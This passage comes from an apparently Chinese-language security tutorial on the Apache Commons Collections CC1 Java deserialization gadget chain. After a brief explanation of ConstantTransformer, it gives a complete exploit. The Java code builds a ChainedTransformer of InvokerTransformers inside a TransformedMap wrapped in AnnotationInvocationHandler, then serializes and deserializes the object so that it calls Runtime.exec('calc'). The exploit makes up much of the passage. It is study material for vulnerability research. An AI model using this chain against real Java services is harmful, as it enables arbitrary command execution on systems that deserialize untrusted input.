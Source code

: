 那是不是这个传入的东西不可控了呢?

‍

这里作者再次找到了一个实现类`ConstantTransformer`​

他的`transform`​方法就是一句话 传入什么都返回常量，那我无所谓value的值，只需要在

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e12c87f20e0c0e416c0e12a2e48b0fe39922f674.png)​

那如果返回的常量是`Runtime.class`​就可以进行传入了

‍

整条链子就结束了 exp如下

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class Main {

    public static void  serialize(Object obj) throws IOException {
        ObjectOutputStream oos =new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);

        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        Object o = cls.newInstance(Target.class,transformedMap);

        serialize(o);
        unserialize("ser.bin");

    }
```